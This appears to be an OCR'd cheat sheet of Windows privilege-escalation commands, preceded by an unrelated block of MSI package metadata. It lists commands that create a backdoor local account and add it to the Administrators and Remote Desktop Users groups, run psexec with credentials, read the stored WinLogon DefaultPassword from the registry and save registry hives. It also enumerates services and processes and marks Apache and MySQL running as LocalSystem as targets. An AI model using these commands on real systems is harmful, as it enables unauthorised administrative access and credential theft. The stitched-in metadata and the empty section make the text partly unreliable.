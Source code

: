 ````
PackageCode={03977CCE-21AF-45BC-A6F1-BF89D44CF720}
PackageName=VC_PremTools.X86.X64.Res.msi
Vendor=Microsoft Corporation
Version=14.0.23506
````
 
## Manual escalation commands
````
whoami /all

net user username password /add
net localgroup Administrators username /add
net localgroup "Remote Desktop Users" username /add
psexec.exe -accepteula \\hostname -u hostname\username -p password cmd /c net user username password /add
runas /user:hostname\username explorer.exe
reg.exe save
icacls.exe
reg.exe query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultUserName
reg.exe query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword
````

SAM file locations
````

````


## Running services
````
net start                        : started services
sc query type= service
sc qc (service)
Get-Service -DisplayName "Service"
Get-CimInstance Win32_Service -Filter "Name='Service'" | Format-List -Property *
````

## Running process

```
powershell -version 2 -c " & {Get-WmiObject -Query "'Select * from Win32_Process'" | where {$_.Name -notlike "'svchost*'"} | Select Name, Handle, @{Label="'Owner'";Expression={$_.GetOwner().User}} | ft -AutoSize }"

wmic service where started=true get name, startname

VMTools                              LocalSystem                  
VMware Physical Disk Helper Service  LocalSystem                  
VMwareCAFManagementAgentHost         LocalSystem                  
W32Time                              NT AUTHORITY\LocalService    
W3SVC                                LocalSystem                  
wampapache64                         LocalSystem       <=== apache as Root             
wampmysqld64                         LocalSystem       <=== mysql as root
WAS                                  LocalSystem                
```
